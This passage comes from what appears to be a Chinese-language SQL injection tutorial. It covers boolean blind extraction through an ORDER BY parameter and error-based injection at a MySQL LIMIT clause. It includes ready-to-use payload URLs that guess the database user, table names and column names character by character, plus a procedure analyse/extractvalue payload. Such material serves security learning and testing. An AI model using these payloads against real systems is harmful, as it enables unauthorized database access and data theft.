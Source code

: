 ### 数据猜解

以猜解user()即`root@localhost`为例子，由于只能一位一位猜解；

可以利用`SUBSTR`,`SUBSTRING`,`MID`,以及`left`和`right`可以精准分割出每一位子串；

然后就是比较操作了可以利用`=`,`like`,`regexp`等；

这里要注意`like`是不区分大小写；

通过以下可以得知user()第一位为`r`,ascii码的16进制为0x72
```
http://192.168.239.2:81/?order=(select+1+regexp+if(substring(user(),1,1)=0x72,1,0x00)) 正确
http://192.168.239.2:81/?order=(select+1+regexp+if(substring(user(),1,1)=0x71,1,0x00)) 错误
```

**猜解当前数据的表名**
```sql
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00))  正确
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误
```

**猜解指定表名中的列名**
```sql
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x69,1,0x00)) 正常
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x68,1,0x00)) 错误
```

然后结合Burp去猜解即可~（[参考文章](https://www.cnblogs.com/icez/p/Mysql-Order-By-Injection-Summary.html)）

## limit 注入

**先科普下limit的用法**
```
格式：
limit m,n
--m是记录开始的位置，n是取n条数据
limit 0,1
--从第一条开始，取一条数据
```

（适用于5.0.0 < mysql < 5.6.6的版本）
```sql
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT （注入点）
```

确认有注入点前面有 order by 关键字,没法用union

在LIMIT后面可以跟两个函数，PROCEDURE 和 INTO，INTO除非有写入shell的权限，否则是无法利用的;

**报错注入：**
```sql
?id=1 procedure analyse(extractvalue(rand(),concat(0x7e,database())),1);
```
